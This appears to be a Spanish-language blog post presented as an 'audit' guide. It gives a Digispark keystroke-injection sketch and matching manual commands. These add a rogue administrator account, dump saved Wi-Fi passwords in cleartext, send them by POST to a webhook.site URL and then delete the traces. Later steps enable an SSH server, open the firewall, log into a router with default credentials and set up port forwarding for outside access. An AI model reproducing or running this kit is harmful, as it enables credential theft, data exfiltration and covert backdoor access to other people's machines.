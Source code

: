 ```yaml
---
layout: post
title: Todo lo que necesitamos para la auditoria
subtitle: Este articulo se eliminara el miercoles
cover-img: /assets/img/auditoria/icono.png
thumbnail-img: /assets/img/auditoria/icono.png
tags: [auditoria]
excerpt: "Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."
---
```


Hecho por boyras200

<br>
<br>

## Programa del digispark

```
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);

  DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("simbolo");
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(0x4F);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(0x51);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
  DigiKeyboard.println("net user Usuario-Auditoria D2z14IdWykPO /add");
  DigiKeyboard.println("net localgroup Administradores Usuario-Auditoria /add");
  DigiKeyboard.delay(200);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/d5dbbd9c-cf83-4df7-adfb-10894b22d13a -Method POST -InFile PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(250);
  DigiKeyboard.println("del Wi-* /s /f /q 6 del PASS"); //cleaning up all the mess
  DigiKeyboard.println("exit");

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
}
```

## Comandos por si no va el digispark

```
Windows. Simbolo del sistema, con permisos de administrador.
net user Usuario-Auditoria D2z14IdWykPO /add
net localgroup Administradores Usuario-Auditoria /add
cd %temp%
netsh wlan export profile key=clear");
powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > PASS
powershell Invoke-WebRequest -Uri https://webhook.site/d5dbbd9c-cf83-4df7-adfb-10894b22d13a -Method POST -InFile PASS
del Wi-* /s /f /q 6 del PASS
exit
```


Cuando en el script nos aparezca esto, le daremos a SI:

![](/assets/img/auditoria/cmd.png.jpg)


Despues clickaremos en el cmd:

![](/assets/img/auditoria/cmd2.jpg)


## Sacar IP

Vamos a sacar la IP privada del sistema. Para esto simplemete hacemos los siguiente:

`Windows + R` 

`cmd`

`ipconfig`

Nos deberia aparecer algo como esto:

/assets/img/auditoria/ipconfig.png


/assets/img/auditoria/ipconfig2.png


Ya tenemos la IP privada, la necesitaremos mas tarde.


## Habilitar ssh

Empezamos abriendo powershell como administrador:

/assets/img/auditoria/powershell.png


Ahora ejecutaremos los siguientes comandos:


`Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'`

`Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0`

`Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`

`Start-Service sshd`

`Set-Service -Name sshd -StartupType 'Automatic'`

`if (!(Get-NetFirewallRule -Name "OpenSSH-Server-In-TCP" -ErrorAction SilentlyContinue | Select-Object Name, Enabled)) {
    Write-Output "Firewall Rule 'OpenSSH-Server-In-TCP' does not exist, creating it..."
    New-NetFirewallRule -Name 'OpenSSH-Server-In-TCP' -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
} else {
    Write-Output "Firewall rule 'OpenSSH-Server-In-TCP' has been created and exists."
}`


Ya hemos habilitado ssh.


## Router (actualizado)

Primero entramos en `https://www.cual-es-mi-ip.net/`

/assets/img/auditoria/ip.png

Ahora vamos a `http://192.168.100.1/`

Ponemos las credenciales root:admin

Encontramos algo como esto:

/assets/img/auditoria/huwai.png


Vamos a advanced:

/assets/img/auditoria/huwai2.png

Vamos a fordward rules:

/assets/img/auditoria/huwai3.png


Vamos a IPv4PortMapping:

/assets/img/auditoria/huwai4.png


Le damos a new:

/assets/img/auditoria/huwai5.png


Ponemos la IP privada:

/assets/img/auditoria/huwai6.png


Le damos a add:

/assets/img/auditoria/huwai7.png


Ponemos los siguientes parametros:

/assets/img/auditoria/huwai8.png

Le damos a apply

# Ya debería estar funcionando todo.
